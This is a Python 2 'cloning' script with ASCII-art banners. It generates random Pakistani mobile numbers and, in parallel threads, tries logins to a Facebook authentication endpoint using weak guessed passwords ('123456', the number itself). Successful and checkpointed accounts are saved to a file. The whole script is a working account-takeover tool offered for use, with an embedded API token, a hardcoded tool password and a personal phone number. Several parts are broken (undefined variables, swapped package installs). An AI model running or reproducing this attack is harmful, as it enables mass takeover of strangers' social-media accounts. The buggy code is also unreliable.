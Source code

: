 # Tariq.py run python2
/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(40000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print  """
\033[1;91m██████╗░██████╗░░█████╗░███╗░░██╗██████╗░
\033[1;92m██╔══██╗██╔══██╗██╔══██╗████╗░██║██╔══██╗
\033[1;93m██████╦╝██████╔╝███████║██╔██╗██║██║░░██║
\033[1;94m██╔══██╗██╔══██╗██╔══██║██║╚████║██║░░██║
\033[1;97m██████╦╝██║░░██║██║░░██║██║░╚███║██████╔╝
\033[1;93m╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝╚═════╝░
\033[1;91m              TARIQ AZIZ :)) 
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;96mHArd work  MAKES ME FAMOUS (^o^) ..
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;92mDEVOLPER   :            (F)
\033[1;91m➣ \033[1;92mFACEBOOK   :            (F)
\033[1;93m➣ \033[1;92mWHATSAPP   :            03458893258 
\033[1;96m➣ \033[1;92mGITHUB     :             new user
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;96mCloning Ids Open 7 days..
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••             
"""

####Logo####

logo1 = """
\033[1;92m░██████╗██╗░░░██╗░█████╗░░█████╗░
\033[1;93m██╔════╝╚██╗░██╔╝██╔══██╗██╔══██╗
\033[1;91m╚█████╗░░╚████╔╝░██║░░╚═╝██║░░██║
\033[1;97m░╚═══██╗░░╚██╔╝░░██║░░██╗██║░░██║
\033[1;96m██████╔╝░░░██║░░░╚█████╔╝╚█████╔╝
\033[1;93m╚═════╝░░░░╚═╝░░░░╚════╝░░╚════╝░ 　 
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;96mYOU CAN COPY MY STYLE..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ DEVOLPER     :        (F)
\033[1;92m➣ FACEBOOK     :        (F)
\033[1;97m➣ GITHUB       :        ✓new user
\033[1;93m➣ WHATAAPP     :       03458893258
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;96mYOU CAN COPY ME ..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
"""
logo2 = """
\033[1;91m██╗   ██╗██╗   ██╗███╗   ██╗██╗   ██╗███████╗
\033[1;92m    ██║   ██║██╔════╝
\033[1;93m ╚████╔╝ ██║   ██║██╔╗
\033[1;94m  ╚██╔╝  ██║   ██║██║╚██╗██║██║   ██║╚════██║
\033[1;96m   
\033[1;97m   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝ ╚═════╝ ╚══════╝
\033[1;92m➣      LEGEND OF  KARACHI SINDH (SINDHI ZINDABAD) 
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••   
\033[1;96m➣ \033[1;93mHard work MAKES ME FAMOUS ...
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••    
\033[1;91m➣ \033[1;92mAUTHOR    :   \033[1;97m(F)
\033[1;92m➣ \033[1;93mFACEBOOK  :   \033[1;97m(F)
\033[1;93m➣ \033[1;91mWHATSAPP  :   \033[1;97mNo whts
\033[1;94m➣ \033[1;96mGITHUB    :   \033[1;97m(F)
\033[1;96m➣ \033[1;92mTEAM      :   \033[1;97mProgramming
\033[1;91m➣ \033[1;93mVERSION   :   \033[1;97m1.0.2
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;93mCP IDS Open After 7 Days..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••     
"""
CorrectUsername = "TARIQ"
CorrectPassword = "AZIZ"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;91m➣ \x1b[1;93mTOOL USERNAME \x1b[1;97m»» \x1b[1;97m ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;92m➣ \x1b[1;93mTOOL PASSWORD \x1b[1;97m»» \x1b[1;97m ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username #Dev:THE YUNUS
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-open https://www.facebook.com/Muhmmadfaraz78')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-open https://www.facebook.com/Muhmmadfaraz78')



##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1] START "
    time.sleep(0.05)
    
    time.sleep(0.05)
    print '\x1b[1;91m[0] EXIT'
    pilih_login()

def pilih_login():
    peak = raw_input("\n\033[1;95mCHOOSE: \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;92m[1] START CLONING '
    time.sleep(0.10)
    print '\x1b[1;91m[0] Back'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;93m➣ \033[1;97mCHOOSE: ')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;91m➣ \033[1;97mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92m➣ \033[1;93mExample'
        print '\033[1;92m[+] Jazz    :  00 01 02 03 04 05 06 07 08 09   \033[1;92m[+] Zong    :  10 11 12 13 14 15 16 17 18      \033[1;92m[+] Warid   :  22 23 24 25                     \033[1;92m[+] Ufone   :  31 32 33 34 35 36 37 38         [+] Telenor :  40 41 42 43 44 45 46 47 48 49' 
        try:
            c = raw_input("\033[1;92m➣ \033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;92m[+] Total ids number: '+xxx)
    jalan ('\033[1;92m[+] Code you choose: '+c)
    jalan ("\033[1;93m[+] Wait A While Start Cracking...")
    jalan ("\033[1;92m[+] To Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/Checkpoint.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/Checkpoint.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/Checkpoint.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/Checkpoint.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="123456"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3
                                okb = open('save/Checkpoint.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                               if 'www.facebook.com' in q['error_msg']:
                                   print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass3
                                   cps = open('save/Checkpoint.txt', 'a')
                                   cps.write(k+c+user+pass3+'\n')
                                   cps.close()
                                   cpb.append(c+user+pass3)
                                                                                                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                          
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/Checkpoint')
    jalan("Note : Your Checkpoint Accounts Will Open after  7 days")
    print ''
    print """
    \033[1;92m.                                  _____________¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶______________
______¶¶¶¶¶¶¶¶¶___________¶¶¶¶¶¶¶¶¶_______
____¶¶¶¶¶__________¶¶¶¶¶__________¶¶¶¶¶___
____¶¶___________¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶__________¶¶¶¶¶¶¶¶¶¶¶___________¶¶__
____¶¶______________¶¶¶¶¶¶____________¶¶__
____¶¶_____________¶¶¶¶¶¶¶____________¶¶__
____¶¶______¶¶___¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶¶¶¶_____¶_¶_____¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶________¶¶______¶¶__
____¶¶____¶¶¶¶¶¶¶¶¶¶¶¶¶_______¶¶¶_____¶¶__
____¶¶____¶¶¶__¶¶¶¶¶¶¶¶¶¶¶_____¶¶_____¶¶__
____¶¶______¶¶____¶¶¶¶¶¶¶¶¶____¶¶_____¶¶__
____¶¶_______¶_____¶¶¶¶¶¶¶¶¶_¶¶¶______¶¶__
____¶¶_____________¶¶¶¶¶¶¶¶¶¶¶________¶¶__
____¶¶_____________¶¶¶¶¶¶¶_¶_________¶¶___
_____¶¶_______¶¶___¶¶¶¶¶¶¶__________¶¶____
______¶¶______¶¶¶¶¶¶¶¶¶¶¶__________¶¶_____
_______¶¶_____________¶¶¶_________¶¶______
________¶¶___________¶¶__________¶¶_______
_________¶¶_________¶¶__________¶¶________
__________¶¶______¶¶¶__________¶¶_________
___________¶¶¶_______________¶¶___________
_____________¶¶____________¶¶¶____________
_______________¶¶¶_______¶¶¶______________
_________________¶¶¶__¶¶¶_________________
____________________¶¶____________________
"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
